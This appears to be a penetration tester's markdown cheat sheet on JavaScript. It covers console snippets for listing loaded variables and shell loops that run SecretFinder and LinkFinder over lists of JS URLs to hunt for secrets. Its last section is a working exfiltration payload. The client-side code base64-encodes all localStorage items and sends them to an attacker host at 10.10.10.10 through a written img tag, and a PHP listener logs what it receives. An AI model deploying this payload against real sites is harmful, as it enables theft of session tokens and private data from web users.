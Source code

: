 # All Stuff JS
## Debugging
To list all currently loaded JavaScript variables in the browsers console:   
```
for(var b in window) {
if(window.hasOwnProperty(b)) console.log(b);
}
```
Another method with more output:   
```
var n, arg, name;
console.log("typeof this = " + typeof this);
for (name in this) {
    console.log("this[" + name + "]=" + this[name]);
}
for (n = 0; n < arguments.length; ++n) {
    arg = arguments[n];
    console.log("typeof arguments[" + n + "] = " + typeof arg);
    for (name in arg) {
        console.log("arguments[" + n + "][" + name + "]=" + arg[name]);
    }
}
``` 

## Searching for low hanging fruits
### TODO: Test JSLuice
https://github.com/BishopFox/jsluice

### Secretfinder
`$ for url in $(cat /root/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -o cli; done`   
Using a proxy:   
`$ for url in $(cat /home/kali/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -p http://localhost:8080 -o cli; done`    

### Linkfinder
`# for url in $(cat /root/Desktop/urls_js.txt); do python3 linkfinder.py -i $url -o cli; done`   
Note: If you get SSL deprecation errors, run it with: `python3 -W ignore linkfinder.py`   

## Sending Local Storage Items to Remote Server
### JavaScript (client) 
```
newString = "";
for (var a in localStorage) {
    newString += a + "="
    newString += localStorage[a];
    // Encode the String with base64
    var encodedString = btoa(unescape(encodeURIComponent(newString)))
    document.write('<img src="https://10.10.10.10/attackerswebapp/receiver.php?str='+encodedString+'">');
    newString = "";
}
```
### PHP listener (server)
```
<?php
$encodedstr = $_GET["str"];
$file = fopen('log.txt', 'a');
$string = base64_decode($encodedstr);
fwrite($file, $string . "\n\n");
?>
```
